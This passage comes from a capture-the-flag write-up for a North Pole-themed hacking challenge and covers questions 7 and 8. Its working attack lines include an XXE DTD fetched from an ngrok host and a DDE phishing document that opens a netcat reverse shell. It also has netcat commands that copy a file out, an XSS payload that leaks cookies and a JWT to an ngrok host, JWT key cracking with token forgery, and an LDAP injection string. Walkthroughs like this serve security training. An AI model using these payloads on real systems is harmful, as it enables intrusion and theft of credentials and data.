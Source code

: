 ```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity SYSTEM "https://e88248eb.ngrok.io/evil.dtd">
    %extentity;
    %inception;
    %sendit;
    ]
<
```

Which displays the secret URI to the page in the web server log.

**Answer:** The tite of the page is "The Dreaded Inter-Dimensional Tornadoes"  

> 7. Like any other complex SCADA systems, the North Pole uses Elf-Machine Interfaces (EMI) to monitor and control critical infrastructure assets. These systems serve many uses, including email access and web browsing. Gain access to the EMI server through the use of a phishing attack with your access to the EWA server. Retrieve The Great Book page from C:\GreatBookPage7.pdf. What does The Great Book page describe?

We note that the mail hints towards Alabaster having nc.exe available.
Creating an auto dde payload document with the payload set to `DDEAUTO c:\\Windows\\System32\\cmd.exe "/k nc.exe <YOUR IP> 5000 -e cmd.exe "` and e-mailing it to Alabaster <alabaster.snowball@northpolechristmastown.com> with subject "gingerbread cookie recipe" eventually gives us a shell.
Using the reverse shell setup with `nc -lvv 5000` we can set up another reverse shell with `nc -lvv 5001 > GreatBookPage7.pdf` and then upload the document with `nc.exe <YOUR IP> < C:\GreatBookPage7.pdf`

**Answer:** The page describes the witches of Oz  

> 8. Fetch the letter to Santa from the North Pole Elf Database at http://edb.northpolechristmastown.com. Who wrote the letter?

Looking at the code, specifically the XSS protection, we can easily see that we can bypass the protection with something like `<img/src/onerror="var x=new Image;x.src='https://dfd20926.ngrok.io/'+document.cookie+'/'+localStorage.getItem('np-auth').length">`
This way we leak a JWT token which can be decoded with pyjwt into: `{"dept": "Engineering", "ou": "elf", "expires": "2017-08-16 12:00:47.248093+00:00", "uid": "alabaster.snowball"}`.
Using JohnTheRipper with a jwt2john.py script from "https://github.com/Sjord/jwtcrack" we can brute force the key in a short amount time eventually finding it to be "3lv3s".
Using this key we can forge a new token with: `pyjwt --key=3lv3s encode dept=Engineering ou=elf expires="2018-12-31 12:00:00.000000+00:00" uid=alabaster.snowball` to log in.
Browsing around we find a menu option which can only be accessed by santa so we need to forge a valid token for him.
The search is vulnerable to an LDAP injection. This can be done by providing the input `name=alab))(department=it)(|(cn=&isElf=True&attributes=profilePath%2Cgn%2Csn%2Cmail%2Cuid%2Cdepartment%2CtelephoneNumber%2Cdescription%2CuserPassword`.
This gives us a lot of data including the data to forge a token for santa with `pyjwt --key=3lv3s encode dept=administrators ou=human expires="2018-12-31 12:00:00.000000+00:00" uid=santa.claus`
Now we can access the menu option and get the letter

**Answer:** The letter was written by The Wizard of Oz  

> 9. Which character is ultimately the villain causing the giant snowball problem. What is the villain's motive?
